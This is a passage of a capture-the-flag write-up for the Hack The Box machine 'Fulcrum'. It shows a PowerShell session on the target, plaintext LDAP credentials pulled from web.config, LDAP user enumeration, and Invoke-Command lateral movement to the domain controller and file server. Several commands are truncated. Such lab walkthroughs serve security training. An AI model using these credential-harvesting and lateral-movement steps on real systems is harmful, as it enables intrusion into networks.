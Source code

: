After running the ps1 on the windows machine we get a PSSession!!! GG
```
> .\fulcrum-connect.ps1
[192.168.1.41]: PS C:\Users\WebUser\Documents> whoami
webserver\webuser
```

Time to enumerate the f out of the machine :laughing:

First we check what might be present on the network

We can do a ps -aux on linux machine and we find a lot of qemu processes
They have machine names
We do nslookup of those machine names on the Powershell machine and we can identify what machine is present on what IP


| IP            | Machine                   |
| ------------- |:-------------------------:|
| 10.25.25.2    | DC (dc.fulcrum.local)     |
| 10.25.25.3    | FILE (file.fulcrum.local) |


Lets have a network map handy so we dont confuse stuff

<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/Network-Diagram.png"></kbd>


Lets get back to the PSSession

There is a user.txt 

```
> cat user.txt
You need to go deeper!
```
 
Ofcourse :persevere:

After doing some enum we find this :

```
[192.168.1.41]: PS C:\inetpub\wwwroot> cat web.config
...
<add connectionString="LDAP://dc.fulcrum.local/OU=People,DC=fulcrum,DC=local" name="ADServices" />
...
<add name="ADProvider" type="System.Web.Security.ActiveDirectoryMembershipProvider, System.Web, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" connectionStringName="ADConnString" connectionUsername="FULCRUM\LDAP" connectionPassword="PasswordForSearching123!" attributeMapUsername="SAMAccountName" />
...
```

We have LDAP Creds!

> Username : LDAP | Password : PasswordForSearching123!

Lets test them out


[192.168.1.41]: PS C:\inetpub\wwwroot> $entry = new-object directoryservices.directoryentry("LDAP://dc.fulcrum.local/OU=People,DC=fulc
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher = new-object directoryservices.directorysearcher($entry);
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter = "(objectClass=user)";
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.findAll() | Select Path
[192.168.1.41]: PS C:\inetpub\wwwroot> $entry = new-object directoryservices.directoryentry("LDAP://dc.fulcrum.local/OU=People,DC=fulc
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher = new-object directoryservices.directorysearcher($entry);
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter ="(&(objectClass=user)(Name=*Bob*))"
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.findAll() | Select Path
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter ="(objectClass=user)"
[192.168.1.41]: PS C:\inetpub\wwwroot> $results = $searcher.findAll()
[192.168.1.41]: PS C:\inetpub\wwwroot> foreach($result in $results) { $user = $result.GetDirectoryEntry(); $user | Select * }
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {dir C:\Users\BTables\Desktop\}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {type C:\Users\BTables\Desktop\user.txt}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {dir ../ }
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {Get-Content ../check-auth.ps1 -Tail 25 > dotalol
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {.\dotalol.ps1 ..\merged.txt}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {sls 923a ..\merged.txt -ca | select -exp line}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName dc.fulcrum.local -Credential $creds -ScriptBlock {whoami}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName file.fulcrum.local -Credential $creds -ScriptBlock {Invoke-Command
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName File.fulcrum.local -Credential $creds -ScriptBlock {Invoke-Command